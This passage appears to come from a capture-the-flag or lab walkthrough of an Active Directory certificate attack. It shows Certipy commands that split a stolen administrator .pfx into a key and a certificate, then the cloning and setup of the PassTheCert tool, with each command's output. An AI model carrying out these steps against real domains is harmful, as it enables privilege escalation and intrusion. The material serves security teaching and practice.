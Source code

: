 `certipy-ad cert -pfx ./administrator.pfx -nocert -out ./administrator.key`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to './administrator.key' ←
```

`certipy-ad cert -pfx ./administrator.pfx -nokey -out ./administrator.crt`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to './administrator.crt' ←
```

`file ./administrator.*`:
```
./administrator.crt:    PEM certificate ←
./administrator.key:    OpenSSH private key (no password) ←
./administrator.pfx:    data
```

Now, we can clone the tool from the GitHub repository.

`git clone https://github.com/AlmondOffSec/PassTheCert.git`:
```
Cloning into 'PassTheCert'...
remote: Enumerating objects: 155, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (29/29), done.
remote: Total 155 (delta 7), reused 16 (delta 4), pack-reused 122 (from 1)
Receiving objects: 100% (155/155), 60.39 KiB | 242.00 KiB/s, done.
Resolving deltas: 100% (65/65), done.
```

`cd PassTheCert`

`cp ../administrator.crt ./`

`cp ../administrator.key ./`

`tree -L 2 ./`:
```
./
├── administrator.crt
├── administrator.key
├── C#
│   ├── PassTheCert
│   ├── PassTheCert.sln
│   └── README.md
├── LICENSE
├── Python
│   ├── passthecert.py ←
│   └── README.md
└── README.md

4 directories, 8 files
```
